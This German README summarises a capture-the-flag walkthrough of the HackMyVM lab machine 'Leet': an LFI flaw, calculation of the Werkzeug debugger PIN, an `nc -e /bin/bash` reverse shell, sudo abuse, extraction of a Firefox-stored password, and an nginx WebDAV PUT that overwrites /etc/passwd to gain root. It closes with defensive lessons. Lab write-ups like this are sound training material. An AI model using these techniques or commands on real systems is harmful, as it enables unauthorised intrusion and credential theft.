 # Leet - HackMyVM - Hard

**Schwierigkeitsgrad:** Hard 🔴

---

## ℹ️ Maschineninformationen

*   **Plattform:** HackMyVM
*   **VM Link:** [https://hackmyvm.eu/machines/machine.php?vm=Leet](https://hackmyvm.eu/machines/machine.php?vm=Leet)
*   **Autor:** DarkSpirit

![Leet Machine Icon](leet.png)

---

## 🏁 Übersicht

Dieser Bericht dokumentiert den Penetrationstest der virtuellen Maschine "Leet" von HackMyVM. Das Ziel war die Erlangung von Systemzugriff und die Ausweitung der Berechtigungen bis auf Root-Ebene. Die Maschine wies kritische Schwachstellen auf, darunter eine Local File Inclusion (LFI), die zur Kompromittierung eines Werkzeug Debuggers und initialer Remote Code Execution (RCE) als Benutzer `www-data` führte. Die Privilegien-Eskalation wurde über eine misskonfigurierte Sudo-Berechtigung für den `micro`-Editor ausgenutzt, um SSH-Zugriff als Benutzer `riva` zu erlangen, gefolgt von einer weiteren Sudo-Schwachstelle für Nginx, die über das Auslesen eines Passworts aus Firefox-Daten und das Überschreiben der `/etc/passwd` Datei zur Erlangung von Root-Rechten führte.

---

## 📖 Zusammenfassung des Walkthroughs

Der Pentest gliederte sich in folgende Hauptphasen:

### 🔎 Reconnaissance

*   Identifizierung der Ziel-IP (192.168.2.44) im lokalen Netzwerk mittels `arp-scan`.
*   Hinzufügen des Hostnamens `leet.hmv` zur lokalen `/etc/hosts`.
*   Umfassender Portscan (`nmap`) zur Identifizierung offener Ports (Port 22 - SSH OpenSSH 9.2p1, Port 7777 - HTTP Werkzeug httpd 3.0.1) und OS-Erkennung.
*   Prüfung der HTTP-Header auf Port 7777 mittels `curl`.

### 🌐 Web Enumeration

*   Automatisiertes Scanning des Webservers auf Port 7777 mit `nikto`, der fehlende Sicherheits-Header, erlaubte HTTP-Methoden (`POST, GET, OPTIONS, HEAD`) und interessante Pfade wie `/console` und `/#wp-config.php#` aufdeckte.
*   Verzeichnis-Brute-Force mit `gobuster` identifizierte den Endpunkt `/download` (Status: 500).
*   Analyse des `/download`-Endpunkts zeigte einen detaillierten Werkzeug Debugger Traceback und das Vorhandensein des Debugger-SECRETs im Quellcode.
*   Entdeckung einer Local File Inclusion (LFI) Schwachstelle im `filename`-Parameter von `/download`, die eine Umgehung der Path-Validation mittels Verzeichnis-Traversal ermöglichte.

### 💻 Initialer Zugriff

*   Ausnutzung der LFI-Schwachstelle zum Auslesen von `/etc/passwd` und `/etc/machine-id` zur Sammlung von Systeminformationen.
*   Umrechnung der MAC-Adresse in einen Integer-Wert.
*   Zusammenstellung aller notwendigen Bausteine (Username `www-data`, Modulname, App-Name, App-Pfad, MAC-Integer, Machine-ID, Debugger SECRET) zur Berechnung des Werkzeug Debugger PINs.
*   Erstellung und Ausführung eines Python-Skripts (`pin_calc.py`) zur Berechnung des Debugger PINs (`142-855-714`).
*   Eingabe des berechneten PINs in die Werkzeug Debugger Konsole zur Freischaltung der interaktiven Python-Konsole.
*   Ausführung von Python-Code (`import os; os.system(...)`) in der Konsole zur Bestätigung der Berechtigungen (`www-data`) und Prüfung auf verfügbare Tools (`which nc`).
*   Initiierung einer Reverse Shell zum Angreifer-System mittels `nc -e /bin/bash ...` über die freigeschaltete Debugger-Konsole.
*   Erfolgreiche Erlangung einer stabilen Shell als Benutzer `www-data`.

### 📈 Privilege Escalation

*   Von der `www-data` Shell: Prüfung der `sudo`-Berechtigungen (`sudo -l`). Gefunden: `(riva) NOPASSWD: /usr/bin/micro`.
*   Enumeration des Home-Verzeichnisses von Benutzer `riva` (`ls -la /home/riva/`). Die Datei `user.txt` und das `.ssh` Verzeichnis wurden identifiziert.
*   Übertragung des Firefox-Profils von `riva` auf das Angreifer-System mittels `scp`.
*   Nutzung von `firefox_decrypt.py` zum Auslesen der im Firefox-Profil gespeicherten Passwörter. Dabei wurde das Passwort für Benutzer `riva` (`PGH$2r0co3L5QL`) gefunden.
*   Ausnutzung der `sudo` Berechtigung für `/usr/bin/micro` als `riva` (`sudo -u riva /usr/bin/micro /home/riva/.ssh/authorized_keys`) und Einfügen des öffentlichen SSH-Schlüssels des Angreifers in die `authorized_keys`-Datei.
*   Erfolgreiche passwortlose Anmeldung per SSH als Benutzer `riva`.
*   Von der `riva` Shell: Erneute Prüfung der `sudo` Berechtigungen (`sudo -l`) bestätigte den Eintrag `(root) /usr/sbin/nginx`, wofür nun das bekannte Passwort von `riva` verwendet werden konnte.
*   Erstellung einer bösartigen Nginx-Konfigurationsdatei (`nginx_pwn.conf` im schreibbaren `/tmp` Verzeichnis), die Nginx anweist, als `root` zu laufen, das System-Root-Verzeichnis (`/`) als Webroot zu verwenden und die WebDAV `PUT` Methode auf Port 4448 zu aktivieren (`user root; listen 4448; root /; dav_methods PUT;`).
*   Starten der bösartigen Nginx-Instanz mit Root-Rechten mittels `sudo -u root /usr/sbin/nginx -c /tmp/nginx_pwn.conf` unter Verwendung des Passworts von `riva`.
*   Erstellung einer modifizierten `/tmp/neue_passwd` Datei, die eine Kopie der Originaldatei sowie einen neuen Eintrag für Benutzer `dark` mit UID 0, GID 0 und einem bekannten Passwort enthält.
*   Ausnutzung der Nginx WebDAV PUT-Fähigkeit (laufend als Root auf Port 4448) zum Überschreiben der Datei `/etc/passwd` auf dem Zielsystem mit der modifizierten Datei (`curl -X PUT --data-binary @/tmp/neue_passwd http://127.0.0.1:4448/etc/passwd`).
*   Anmeldung als neuer Root-Benutzer `dark` mittels `su dark`.
*   Erfolgreiche Erlangung einer Root-Shell.

### 🚩 Flags

*   **User Flag:** Gefunden in `/home/riva/user.txt`
    ` [User Flag Wert hier einfügen] ` *(Hinweis: Der Wert der User Flag war im bereitgestellten Text nicht enthalten, nur der Speicherort.)*
*   **Root Flag:** Gefunden in `/root/r007_fl46.7x7`
    ` ca169772acb099a02ebab8da1d9070ea `

---

## 🧠 Wichtige Erkenntnisse

*   **Werkzeug Debugger Schwachstelle:** Die PIN-basierte Authentifizierung des Debuggers ist unsicher, wenn die zur PIN-Berechnung benötigten Systeminformationen (Username, Pfade, MAC, Machine-ID, SECRET) kompromittiert werden können. Ein aktivierter Debugger in Produktionsumgebungen ist ein kritisches RCE-Risiko.
*   **Local File Inclusion (LFI):** Eine LFI-Schwachstelle ermöglicht das Auslesen beliebiger Dateien und kann weitreichende Folgen haben (Informationslecks, Bausteine für andere Angriffe wie hier die Debugger-PIN-Berechnung). Strikte Input-Validierung und das Prinzip der geringsten Rechte sind essenziell.
*   **Unsichere Sudo-Konfigurationen:** `NOPASSWD`-Einträge oder die Erlaubnis, leistungsstarke Binaries (wie Editoren oder Webserver) mit erhöhten Rechten auszuführen, stellen direkte Privilegien-Eskalationspfade dar, insbesondere wenn die Passwörter der Benutzer kompromittiert werden können oder die Binaries manipulierbar sind.
*   **Passwort-Speicherung in Browsern:** Ungeschützte Passwörter in Browserprofilen stellen ein erhebliches Sicherheitsrisiko dar. Ein kompromittiertes Benutzerkonto kann schnell zur Kompromittierung weiterer Dienste oder erhöhter Berechtigungen führen, wenn Passwörter wiederverwendet oder in Browsern gespeichert werden.
*   **Nginx Fehlkonfiguration:** Das Starten von Nginx mit Root-Rechten, das Setzen des Webroots auf `/` und das Aktivieren von Methoden wie `PUT` kann das gesamte Dateisystem einem Angreifer aussetzen und direkten Schreibzugriff auf kritische Systemdateien ermöglichen.

---

## 📄 Vollständiger Bericht

Eine detaillierte Schritt-für-Schritt-Anleitung, inklusive Befehlsausgaben, Analyse, Bewertung und Empfehlungen für jeden Schritt, finden Sie im vollständigen HTML-Bericht:

[**➡️ Vollständigen Pentest-Bericht hier ansehen**](https://alientec1908.github.io/Leet_HackMyVM_Hard/)

---

*Berichtsdatum: 15. Juni 2025*
*Pentest durchgeführt von DarkSpirit*
